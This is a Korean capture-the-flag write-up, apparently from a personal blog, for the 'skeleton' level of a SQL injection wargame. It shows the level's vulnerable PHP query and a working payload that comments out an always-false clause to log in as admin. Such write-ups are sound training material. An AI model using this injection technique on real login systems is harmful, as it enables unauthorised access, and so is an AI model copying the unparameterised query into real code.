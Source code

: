 중간의 admin이 사라지면서 admin이 완성된다.

![image-20220608175447853](img/image-20220608175447853.png)

<br><br><br>

-----


# LOS: skeleton

## 삽질

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id'] == 'admin') solve("skeleton"); 
  highlight_file(__FILE__); 
?>
```

이번에는 `1=0` 을 통해서 항상 거짓이 되도록 만들었다. 

<br>


## writeup

다시 기본으로 돌아가보면 사용자의 입력을 통해 주석을 삽입할 수 있다. 때문에 항상 거짓이 되는 1=0 부분을 주석처리 해버리면 되겠다.

```
pw=1' or id='admin' --+
```

오히려 필터링이 없어져서 편안해졌다.

![image-20220608175831529](../img/image-20220608175831529.png)

<br><br><br>

-----
